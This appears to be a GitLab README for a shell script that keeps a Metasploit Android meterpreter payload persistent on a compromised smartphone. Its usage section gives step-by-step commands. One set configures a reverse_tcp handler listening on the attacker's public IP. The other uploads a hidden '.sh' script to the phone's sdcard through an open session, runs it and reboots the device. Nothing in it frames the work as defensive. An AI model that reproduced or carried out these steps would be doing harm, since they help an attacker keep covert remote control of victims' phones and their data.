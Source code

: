 # MSF PERSISTANCE ANDROID

## INDEX

- [MSF PERSISTANCE ANDROID](#msf-persistance-android)
  - [INDEX](#index)
  - [BADGES](#badges)
  - [FIRST UPDATE](#first-update)
  - [INTRODUCTION](#introduction)
  - [PREREQUISITES](#prerequisites)
  - [USE](#use)
  - [LICENSE](#license)

## BADGES

[![pipeline status](https://gitlab.com/oda-alexandre/msf-persistance-android/badges/master/pipeline.svg)](https://gitlab.com/oda-alexandre/msf-persistance-android/commits/master)

## FIRST UPDATE

Date: 01-01-01

## INTRODUCTION

This script allows the persistence of the payload on Android smartphone with Metasploit.

## PREREQUISITES

Use [Metasploit](https://www.metasploit.com/)

## USE

1 - Put the msf-persistance-android.sh script in your personal folder and rename .sh

2 - Open MSF

```use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set lhost YOUR IP PUBLIC
set lport THE PORT OF YOUR CHOICE
exploit
```

3 - Copie/Paste in a terminal in shell MSF with a session android/meterpreter/reverse_tcp

```cd /
cd sdcard
upload ~/.sh
shell
cd /
cd sdcard
sh .sh
reboot
exit
```

## LICENSE

[![GPLv3+](http://gplv3.fsf.org/gplv3-127x51.png)](https://gitlab.com/oda-alexandre/msf-persistance-android/blob/master/LICENSE)
